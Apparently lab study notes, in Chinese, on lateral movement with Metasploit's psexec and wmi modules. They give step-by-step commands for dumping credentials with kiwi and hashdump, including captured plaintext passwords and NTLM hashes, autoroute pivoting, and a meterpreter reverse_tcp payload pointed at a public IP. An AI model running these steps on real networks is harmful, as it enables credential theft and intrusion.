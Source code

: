 ### psexec

> 使用的是 exploit/windows/smb/psexec     

#### 查找方法

1. 进入msf: `msfconsole`
2. 搜索psexec: `search psexec`
3. 使用exploit/windows/smb/psexec ,示例的命令是`use 4`
4. 示例图![image-20221013113230335](img/image-20221013113230335.png)![image-20221013113254944](img/image-20221013113254944.png)

#### 使用条件

1. 开启了445和139端口
2. msf可以访问到

#### 使用示例

1. 有一个会话, 192.168.5.118![image-20221019184338139](img/image-20221019184338139.png)

2. 进入会话, 装在kiwi模块, 命令为`load kiwi`

   > 进入会话`sessions {id}` 退出会话`bg`

3. 提升权限![image-20221019184626279](img/image-20221019184626279.png)

4. 获取明文密码,使用命令`creds_all`![image-20221019184842903](img/image-20221019184842903.png)

5. 保存明文密码

   ```
   msv credentials
   ===============
   
   Username       Domain           LM                         NTLM                       SHA1
   --------       ------           --                         ----                       ----
   Administrator  WIN-IE2OKV8R52O  7f089b4adaa02fc65aacd84cd  032e5b1d6af88a6c840870aa3  098e127441969f63d1b0fccb7f
                                   494924f                    d0a915e                    a1a774e9032f63
   
   wdigest credentials
   ===================
   
   Username          Domain           Password
   --------          ------           --------
   (null)            (null)           (null)
   Administrator     WIN-IE2OKV8R52O  wlxY317.
   WIN-IE2OKV8R52O$  WORKGROUP        (null)
   
   tspkg credentials
   =================
   
   Username       Domain           Password
   --------       ------           --------
   Administrator  WIN-IE2OKV8R52O  wlxY317.
   
   kerberos credentials
   ====================
   
   Username          Domain           Password
   --------          ------           --------
   (null)            (null)           (null)
   Administrator     WIN-IE2OKV8R52O  wlxY317.
   win-ie2okv8r52o$  WORKGROUP        (null)
   ```

   

6. 获取密文密码并保存, 命令`hashdump`

   ```
   meterpreter > hashdump 
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:032e5b1d6af88a6c840870aa3d0a915e:::
   doufu:1004:aad3b435b51404eeaad3b435b51404ee:3766c17d09689c438a072a33270cb6f5:::
   Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   www:1003:aad3b435b51404eeaad3b435b51404ee:94928ad3ef10ed0e062a9bb43e06c3a0:::
   
   ```

   

7. 退出会话, 添加路由, 依次使用如下命令

   ```
   search autoroute
   use 0
   set session 1
   run
   ```

   ![image-20221019190038490](img/image-20221019190038490.png)

8. 退出会话,搜索并进入psexec

9. 设置参数

   ```
   set smbuser Administrator #用户名
   set smbpass wlxY317. #密码
   set rhosts 192.168.5.126 #目标ip
   set payload  windows/x64/meterpreter/reverse_tcp
   set lhost 120.78.76.236 #自己的公网地址
   ```

   <img src="img/image-20221019190529865.png" alt="image-20221019190529865" style="zoom: 33%;" />

10. 使用命令`run`运行,结果![image-20221019190445015](img/image-20221019190445015.png)



### wmic

> 使用的是exploit/windows/local/wmi   

#### 进入方法

1. 在vps上输入`msfconsole`
2. 输入命令`search wmi`
3. 使用exploit/windows/local/wmi   
4. 样例，这里使用的命令是`use 16`![image-20221013111243463](img/image-20221013111243463.png)

#### 使用条件

1. 开放135端口
2. 有一个上线的会话用于横向移动(此处为192.168.5.118)
3. 已知用户名与密码

> 没尝试是否能用hash密码

#### 设置

1. 设置目标, 示例:`set rhost 192.168.5.123`
2. 设置会话, 示例: `set session 1`
3. 设置用户名, 示例: ` set smbuser Administrator`
4. 设置密码, 示例: `set smbpass Admin123.`
5. 运行,使用命令`run`
6. 示例图![image-20221013112144151](img/image-20221013112144151.png)

操作实例:

1. 添加路由:

   ```
   search autoroute
   use 0
   set session 1
   run
   ```

2. 使用端口扫描查看135端口是否开启:

   ```
   search portscan
   use 5
   set rport 135 139 445
   set lhost 192.168.5.123
   ```

   ![image-20221020171242174](img/image-20221020171242174.png)

   ![image-20221020171309484](img/image-20221020171309484.png)

3. 由第二步结果可知135端口开放, 可以使用wimc模块尝试上线会话.

   ```
   search wmi
   use 16 #exploit/windows/local/wmi  
   set 
   ```

   

### 补充: net use

 [dos命令net教程，net use连接或断开计算机共享资源IPC$空连接_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1sZ4y1T77o/?vd_source=9a998f3bebd56ada3d6232eb7d8fec81)

[net use命令详解（转） - 捡贝壳的孩子 - 博客园 (cnblogs.com)](https://www.cnblogs.com/mamiyiya777/p/11017875.html)